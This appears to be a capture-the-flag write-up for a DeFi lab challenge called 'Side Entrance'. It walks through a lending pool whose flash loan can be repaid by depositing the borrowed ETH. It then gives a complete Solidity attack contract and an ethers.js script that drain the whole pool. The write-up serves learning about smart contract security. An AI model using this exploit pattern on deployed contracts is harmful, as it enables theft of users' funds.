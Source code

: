 ## GOAL
You must take all ETH from the lending pool.

## Examning The Code
This is a very simple one, the contract is allowing to deposit and withdraw at any point at anytime, this the description ;)
we have these 3 functions:
```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
```

## Exploit 
We can make a flashLoan, in the flashLoan function execute so we can implement execute as function and inside it we can deposit. Then we call the function withdraw and implement receive method to transfer all ether to us.

## Solution
```solidity
contract Attack{
    address payable owner; 
    SideEntranceLenderPool pool;
    constructor(address _pool)
    {
        pool = SideEntranceLenderPool(_pool);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external
    {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }
    receive () external payable{
        owner.transfer(address(this).balance);
    }
}
```

```javascript
const deploying = await ethers.getContractFactory("Attack",attacker);
const attackContract = await deploying.deploy(this.pool.address);
await attackContract.attack(ETHER_IN_POOL);
```
